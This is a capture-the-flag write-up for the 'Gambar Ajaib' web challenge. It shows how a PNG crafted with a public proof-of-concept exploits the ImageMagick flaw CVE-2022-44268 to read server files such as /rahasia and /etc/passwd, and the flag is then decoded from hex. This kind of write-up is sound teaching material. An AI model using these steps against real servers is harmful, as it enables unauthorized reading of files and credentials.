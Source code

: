 # Gambar Ajaib
> Aplikasi ini dirancang untuk memproses gambar dengan format tertentu, kemudian dapat disulap dengan sentuhan magis aplikasinya.

> Ada satu cerita tentang sejarah Indonesia yang disembunyikan, hal itu tersimpan dengan sangat rapih di /rahasia

> Coba check dulu!

## About the Challenge
A website is provided without the source code, where users can upload PNG image files on the site.


[Image extracted text: Do Your Magic?
Choose File
No file chosen
Submit
2022]


## How to Solve?
This site is vulnerable to CVE-2022-44268, which is an LFI (Local File Inclusion) vulnerability in ImageMagick version 7.1.0-49. This conclusion is drawn from the puzzle name `Gambar Ajaib` and the website's code year being 2022. To exploit this vulnerability, I used a GitHub repository where a tool can generate images containing payloads to read files on the server. Here is the GitHub repository I used: https://github.com/Sybil-Scan/imagemagick-lfi-poc


[Image extracted text: READMEmd
ImageMagick LFI PoC [CVE-2022-44268]
The researchers at MetabaseQ discovered CVE- 2022-44268,ie: ImageMagick 7.1.0-49 is vulnerable to Information
Disclosure. When
parses
PNG image (e.g, for resize) the resulting image
have embedded the content of an
arbitrary remote file (f the ImageMagick binary has permissions to read it):
Usage
Make sure you have ImageMagick and required Python packages installed:
(~>>
python} generate-Py
[etc/passwd"
exploit-png
[>] ImageMagick LFI
by Sybil Scan
Research
cresearchOsybilscan
comx
[>] Generating Blank PNG
[>] Blank PNG generated
[>] Placing Payload
Tcdd
fetc  passwd
[>] PoC PNG generated
exploit-png
Convert the
generated PNG file:
could]


However, before proceeding with exploitation, I discovered a rather peculiar endpoint, namely `/rahasia` (which means `secret` in Indonesian). There's a possibility that this `/rahasia` endpoint is related to the challenge that is to be exploited.


[Image extracted text: 6
Not secure
OxTelctfzerobyte me.58217/rahasia
KENA PRANK?
IYAlAH!
MASA GITU DOANG_
ENAK   BENER DONG
HACK SENDIRI! Kan LU HEKER!
TAPI GUE
GAK BCHONG
LHO!
INTINYA ADA
{rahasia]


So in this case, I will attempt to read the file named "/rahasia" by executing the following command:

```bash
python3 generate.py -f "/rahasia" -o exploit.png
```

Next, upload the generated image to the website and then re-download the uploaded image. Proceed with the following shell command to view the hex code of the file named "/rahasia":

```bash
identify -verbose result.png
```


[Image extracted text: png : SRGB:
intent-0 (Perceptual Intent)
png
text
3 tEXt/zTXt/itxt
chunks
were
found
png:tIME
2023-08-19T02:15:252
Ral profile type:
68
30627974654354467b54683073335f5768305f43346e6e30745f4368346e67335f546833
31725f4d316e44735f43346e6e30545f4368346e67335f346e797468316e477d
signature: 2c6157f034438d869ae3704680e3635883188ba95635a9dd7ca09450acOc056d
Artifacts:
filename
exploit.png
verbose
true
Tainted: False
Filesize: 1487B]


Then, convert the hex code into ASCII to read the flag.


[Image extracted text: 30627974654354467654683073335f5768305f43346e6238745f4368346267335f546833
Remove whitespace
31725644316044735f4334626238545f4368346267335f346079746831624774
Spaces
Carriage returns (Vr)
Line teeds (In)
Tabs
Form feeds ()
Full stops
From Hex
Cewmitet
None
Output
Obytecte{Th8s3_Who_(Annot_ch4ng}_Th3lr_MlnDs_(Annot_Ch4ng3_Anythlngh]


```
0byteCTF{Th0s3_Wh0_C4nn0t_Ch4ng3_Th31r_M1nDs_C4nn0T_Ch4ng3_4nyth1nG}
```